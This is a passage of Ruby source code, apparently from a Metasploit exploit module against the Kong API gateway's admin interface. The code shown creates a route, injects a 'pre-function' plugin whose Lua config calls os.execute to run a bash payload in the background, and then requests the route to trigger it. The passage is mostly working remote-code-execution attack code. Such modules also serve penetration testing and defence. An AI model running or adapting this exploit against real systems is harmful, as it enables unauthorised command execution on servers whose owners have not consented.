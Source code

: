 ```
          ]
        ],
        'Privileged' => false,
        'DisclosureDate' => '2020-10-13',
        'DefaultOptions' => { 'RPORT' => 8001 },
        'Notes' => {
          'Stability' => [CRASH_SAFE],
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [IOC_IN_LOGS, CONFIG_CHANGES]
        }
      )
    )
    register_options(
      [
        OptString.new('PUBLIC-API-RHOST', [false, 'The host where the public API is available, if different to RHOST']),
        OptInt.new('PUBLIC-API-RPORT', [true, 'The port where the public API is available', 8000]),
        OptString.new('TARGETURI', [true, 'URI to the Kong server', '/'])
      ],
      self.class
    )
  end

  def check_response(response, expected, path, description)
    fail_with(Failure::Unreachable, "No response received from #{path} when #{description}") unless response
    return if response.code == expected

    fail_with(Failure::UnexpectedReply,
              "Unexpected response from #{path} when #{description} (received #{response.code}, expected #{expected})")
  end

  def create_route
    path = normalize_uri(target_uri.path, 'routes')
    response = send_request_cgi({
      'method' => 'POST', 'uri' => path,
      'vars_post' => { 'name' => @rand_name, 'paths' => "/#{@rand_name}" }
    })
    check_response(response, 201, path, 'creating route')
  end

  def create_plugin
    # The double square brackets helps to ensure single/double quotes in cmd payload do not interfere with syntax of
    # os.execute Lua function. The ampersand backgrounds the command so that it doesn't cause Kong to hang.
    cmd = %{os.execute([[bash -c "#{payload.encoded}" &]])}
    path = normalize_uri(target_uri.path, 'routes', @rand_name, 'plugins')
    response = send_request_cgi({
      'method' => 'POST', 'uri' => path,
      'vars_post' => { 'name' => 'pre-function', 'config.access' => cmd }
    })
    check_response(response, 201, path, 'creating plugin')
  end

  def request_route
    path = normalize_uri(target_uri.path, @rand_name)
    rhost = datastore['PUBLIC-API-RHOST'] if datastore['PUBLIC-API-RHOST']
    rport = datastore['PUBLIC-API-RPORT'] if datastore['PUBLIC-API-RPORT']
    retry_count = 0
    begin
      response = send_request_cgi({ 'uri' => path, 'rhost' => rhost, 'rport' => rport })
```